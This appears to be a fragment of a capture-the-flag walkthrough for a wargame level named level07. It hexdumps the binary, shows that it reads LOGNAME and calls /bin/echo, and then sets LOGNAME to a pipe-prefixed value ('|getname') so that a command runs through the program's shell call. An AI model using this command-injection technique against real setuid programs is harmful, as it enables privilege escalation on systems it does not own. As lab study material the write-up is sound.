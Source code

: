 # ./level07
```
hexdump -C level07
```
-> ``00000680  4c 4f 47 4e 41 4d 45 00  2f 62 69 6e 2f 65 63 68  |LOGNAME./bin/ech|``

``env``

-> LOGNAME=level07

```
export LOGNAME="|getname"
./level07
```
